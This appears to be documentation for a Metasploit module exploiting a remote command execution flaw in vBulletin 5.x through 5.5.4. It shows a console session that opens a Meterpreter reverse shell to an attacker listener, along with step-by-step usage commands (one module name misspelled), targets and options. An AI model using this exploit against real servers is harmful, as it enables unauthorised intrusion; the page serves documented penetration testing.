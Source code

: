 ## Introduction

vBulletin 5.x through 5.5.4 allows remote command execution via the `widgetConfig[code]` parameter in an `ajax/render/widget_php` `routestring` `POST` request.

A proof of concept was originally published on [seclist.org](https://seclists.org/fulldisclosure/2019/Sep/31).

```
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444 
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Sending stage (38288 bytes) to 192.168.1.25
[*] Meterpreter session 1 opened (192.168.1.13:4444 -> 192.168.1.25:35772) at 2019-10-18 13:53:39 +0400

meterpreter > 
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/vbullnetin_widgetconfig_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

## Targets

```
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Linux (Stager)
  2   Windows (Stager)
  3   Unix (In-Memory)
  4   Windows (In-Memory)
```

## Options

**PHP_CMD**

Specify the PHP function in which you want execute the payload. Default: shell_exec

**TARGETURI**

The base URI path of vBulletin. Default: /

## Advanced options

**ForceExploit**

Override check result.

## References

  1. <https://seclists.org/fulldisclosure/2019/Sep/31>
